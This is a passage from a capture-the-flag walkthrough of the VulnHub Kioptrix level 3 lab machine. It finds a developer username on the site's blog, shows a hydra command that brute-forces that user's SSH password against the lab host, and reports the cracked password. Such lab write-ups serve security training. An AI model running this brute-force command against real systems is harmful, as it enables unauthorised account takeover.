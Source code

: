 ![Web App 4|600](images/vulnhub-kioptrix-lvl3/webapp-4.png)

On the blog tab of the website, there are two posts. The first one discusses the release of an online gallery which is the site on the `/gallery` route. The second post talks about the hiring of a new programmer. The developer goes by the name `loneferret`.

The target has SSH running, I tried to brute force the password of `loneferret`. 

```bash
# Password Brute force Attack
hydra -l loneferret -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 10.0.2.24 -t 4 ssh
```

![Hydra|600](images/vulnhub-kioptrix-lvl3/hydra.png)

And it worked. The password of user `loneferret` is `starwars`.

